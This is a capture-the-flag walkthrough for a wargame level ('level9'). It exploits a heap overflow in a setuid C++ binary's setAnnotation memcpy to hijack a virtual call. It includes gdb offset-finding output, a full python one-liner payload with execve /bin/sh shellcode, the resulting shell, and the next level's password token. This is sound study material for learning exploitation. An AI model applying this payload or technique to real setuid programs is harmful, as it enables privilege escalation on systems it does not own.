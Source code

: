
# level9 walkthrough

There is a setuid binary, after analyzing it with gdb we can find 5 interesting functions:

    N::N(int)
    N::setAnnotation(char*)
    N::operator+(N&)
    N::operator-(N&)
    main

This binary is written in cpp and there is no calls to /bin/sh, we can assume we'll have to use shellcode this time.
We can use the memcpy() on argv[1] in setAnnotation() to execute our shellcode.
First of all we need to find the offset:

    (gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
    Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

    Program received signal SIGSEGV, Segmentation fault.
    0x08048682 in main ()
    (gdb) info register eax
    eax            0x41366441       1094083649

We can use pattern generator to find eax offset (108 bytes).
Now we need to construct shellcode which we can get from level2 with few modifications.
In order to do that we need to find the start address of our buffer and replace the value of esp+0x10 with obtained address.
But we also need to dereference twice like we want to access to the N class, our return address should point to the address of our buffer:

    (gdb) b *main+136
    Breakpoint 1 at 0x804867c
    (gdb) run 'aaaa'
    Starting program: /home/user/level9/level9 'aaaa'

    Breakpoint 1, 0x0804867c in main ()
    (gdb) x $eax
    0x804a00c:      0x41414141

The value of [esp+0x10] will be replaced with 0x804a00c.
Because we need to dereference again this address shoul point to the beginning of our shellcode: 0x804a00x + 4 = 0x804a010.

    payload: shell_addr + shellcode + padding + buffer_addr
            [4 bytes]   [28 bytes]  [76 bytes]  [4 bytes] = 108 + 4

Our final exploit will look like this:

    python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
    level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
    $ whoami
    bonus0
    $ cat /home/user/bonus0/.pass
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

